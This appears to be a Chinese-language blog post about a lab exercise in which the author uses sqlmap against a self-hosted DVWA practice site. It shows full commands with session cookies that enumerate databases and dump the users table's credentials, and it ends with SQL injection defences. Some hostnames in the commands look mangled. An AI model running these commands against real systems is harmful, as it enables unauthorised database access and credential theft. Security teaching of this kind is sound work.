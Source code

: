 ```yaml
---
layout:     post
title:      "一次sql注入测试"
subtitle:   " \" 软件测试\""
date:       2023-12-12 17:50:12
author:     "yangsir"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - Meta
    - 渗透测试


---
```


> “Yeah It's on. ”


<p id = "build"></p>

## 利用sqlmap对测试站点进行sql注入并获得后台管理员admin账号和密码



**该方案仅用于个人学习,所有环境均为自己搭建**

**《中华人民共和国刑法》**

**非法侵入计算机信息系统罪和非法控制计算机信息系统罪。未经许可侵入他人计算机信息系统或者非法控制他人计算机信息系统，情节严重的，可以被追究刑事责任。**



测试环境：

​      Linux两台



![image-20231212165831001](\img\springBoot\image-20231212165831001.png)

sql注入概述:

所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令。

它是利用现有应用程序，可以通过在 Web 表单中输入(恶意)SQL 语得到一个存在安全漏洞的网站上的数据库。*

比如先前的很多影视网站泄露 VIP 会员码大多就是通过 WEB 表单递交查询字符暴出的，这类表单特别容易受到 SQL注入式攻击。

什么是SQLmap?

SQLmap 是一款用来检测与利用 SQL注入漏洞的免费开源工具，有一个非常棒的特性，即对检测与利用的自动化处理(数据库指纹、访问底层文件系统、执行命令)。

![image-20231212165916196](\img\springBoot\image-20231212165916196.png)

Sqlmap已经安装完毕

![image-20231212165939246](\img\springBoot\image-20231212165939246.png)

目标站点

test.iximp.top/index.php

DVWA靶场

DVWA靶场是一个用于安全研究人员和开发人员进行安全测试和教学的开源Web应用程序。DVWA全称是Damn Vulnerable Web Application，即“极易受攻击的Web应用程序”。

这个应用程序具有很多已知的安全漏洞，如SQL注入、跨站脚本攻击（XSS）、不安全的直接对象引用等。用户可以在这个应用程序中尝试各种攻击技术，以便更好地理解这些漏洞的工作原理，如何防御它们，以及如何在自己的代码中避免这些漏洞。

DVWA靶场是一个非常有用的工具，可以帮助开发人员和安全专业人员提高他们的安全知识和技能。



## 测试开始

登录网站获取cookie

![image-20231212170022337](\img\springBoot\image-20231212170022337.png)





使用sqlmap检索当前数据库和当前用户

```shell
sqlmap -u "https://test.iximp.top/vulnerabilities/sqli/?id=22&Submit=Submit" --cookie='PHPSESSID=9jnc4mmla0tggst2v2f73esna2; security=low' -b --current-db --current-user
```

![image-20231212173743924](\img\springBoot\image-20231212173743924.png)

扫描成功

-u 指定URL

--cookie指定cookie

-b 获取DBMSbanner

--current-db 获取当前数据库

--current-user获取当前用户



枚举所有mysql的用户和密码hash值，后期可以对密码进行破解，生成明文密码

```shell
sqlmap -u "https://test.iximp.top/vulnerabilities/sqli/?id=10&Submit=Submit" --cookie='PHPSESSID=tllqn7te36c7n42vsbn72hiob7; security=low' --string ="Surname" --users –password


```



枚举所有数据库名

```shell
sqlmap -u "https://test.ixt.iximp.top/vulnerabilities/sqli/?id=10&Submit=Submit" --cookie='PHPSESSID=tllqn7te36c7n42vsbn72hiob7; security=low' –dbs
```

![image-20231212174022983](\img\springBoot\image-20231212174022983.png)

枚举dvwa数据库中的所有表名

```shell
sqlmap -u "https://test.iximp.top/vulnerabilities/sqli/?id=10&Submit=Submit" --cookie='PHPSESSID=tllqn7te36c7n42vsbn72hiob7; security=low' --string ="Surname" -D dvwa --tables

```

![image-20231212174039296](\img\springBoot\image-20231212174039296.png)

枚举字段名

```shell
sqlmap -u "https://test.est.iximp.top/vulnerabilities/sqli/?id=10&Submit=Submit" --cookie='PHPSESSID=tllqn7te36c7n42vsbn72hiob7; security=low' --string ="Surname" -D dvwa -T users --columns 
```



提取user表中的用户名和密码等信息，将用户与密码表中的所有用户名与密码dump出来

```shell
sqlmap -u "https://test.iximp.top/top/vulnerabilities/sqli/?id=10&Submit=Submit" --cookie='PHPSESSID=tllqn7te36c7n42vsbn72hiob7; security=low' --string ="Surname" -D dvwa -T users -C user,password –dump
```



![image-20231212174203975](\img\springBoot\image-20231212174203975.png)



提取出来后，默认将文件放在了/root/.local/share/sqlmap/output/test.iximp.top/dump/dvwa/users.csv中



```shell
cat /root/.local/share/sqlmap/output/test.iximp.top/dump/dvwa/users.csv
```



![image-20231212174345922](\img\springBoot\image-20231212174345922.png)



托库成功！！！



### 此次实验步骤：

1. 在DVWA靶场中设置安全级别为低级，选择SQL漏洞进行测试。
2. 使用浏览器访问DVWA靶场，获取到可能存在SQL注入的URL。
3. 使用sqlmap工具，对获取到的URL进行SQL注入测试。
4. sqlmap工具在测试过程中发现了SQL注入漏洞，进一步利用该漏洞获取到数据库信息。
5. 利用sqlmap工具，对数据库进行深度挖掘，最终成功获取到后台管理员admin的账号和密码。

### 如何有效避免SQL注入

1. 预编译SQL语句：预编译SQL语句可以保证所有的SQL语句在执行前都已经被数据库服务器解析，这样就无法插入恶意的SQL代码。
2. 参数化查询：参数化查询也是一种防止SQL注入的有效手段。它将查询和数据分开，让数据库只解析查询，而不解析数据，这样就不会触发SQL注入。
3. 用户输入验证：对用户的输入进行严格的验证，如长度、类型和语法检查，以及对特殊字符进行转义处理。
4. 使用最小权限原则：应用程序连接数据库的账户权限应该限制在最小，只有执行特定任务所需的权限。



### 实验结果：

成功利用SQL注入漏洞，获取到了后台管理员admin的账号和密码。

### 实验总结： 

通过本次实验，我们深入理解了SQL注入攻击的原理和过程，掌握了使用sqlmap工具进行SQL注入测试的方法，提高了我们的安全防护能力。同时，我们也认识到，开发过程中需要严格遵守编程规范，对用户输入进行严格的过滤和检查，防止恶意攻击。此外，定期进行安全测试和漏洞扫描，及时发现和修复安全漏洞，也是保障系统安全的重要手段。
